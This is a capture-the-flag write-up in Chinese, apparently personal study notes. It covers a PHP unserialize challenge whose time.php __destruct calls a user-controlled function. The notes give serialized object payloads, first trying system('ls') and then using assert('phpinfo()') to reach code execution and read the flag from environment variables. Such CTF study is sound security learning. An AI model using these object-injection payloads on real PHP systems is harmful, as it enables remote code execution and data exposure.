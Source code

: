 ![[Pasted image 20221201150134.png]]

---
首页长这样
![[Pasted image 20221201150215.png]]
查看前端代码，尝试寻找注入
![[Pasted image 20221201150309.png]]
```php
/time.php?source
```

```php
<?php
#error_reporting(0);
class HelloPhp
{
    public $a;
    public $b;
    public function __construct(){
        $this->a = "Y-m-d h:i:s";
        $this->b = "date";
    }
    public function __destruct(){
        $a = $this->a;
        $b = $this->b;
        echo $b($a);
    }
}
$c = new HelloPhp;

if(isset($_GET['source']))
{
    highlight_file(__FILE__);
    die(0);
}

@$ppp = unserialize($_GET["data"]);

```

看样子是个简单的反序列化，尝试以下payload
```php
/time.php?data=O:8:"HelloPhp":2:{s:1:"a";s:2:"ls";s:1:"b";s:6:"system";}
```
![[Pasted image 20221201154452.png]]
并没有反应，看来是`system`被ban了
`eval`作为特殊形式，本身不是函数，所以不能使用
尝试用`file_get_contents`读出和构造匿名函数，结果都失败了QAQ，一是不知道`flag`在什么文件里，二是匿名函数不能序列化

看网上大佬用的`assert`才想起来还有这玩意
`flag`不知道在哪个文件里，答案是作为环境变量了，要通过`phpinfo()`获得
```php
/time.php?data=O:8:"HelloPhp":2:{s:1:"a";s:9:"phpinfo()";s:1:"b";s:6:"assert";}
```
![[Pasted image 20221201170810.png]]

这个在本地机上咋也跑不起来QAQ，然后查文档发现是本地机`php`版本太高了
![[Pasted image 20221201165741.png]]
![[Pasted image 20221201165815.png]]

#Web #PHP #反序列化 #绕过 #assert #函数 #环境变量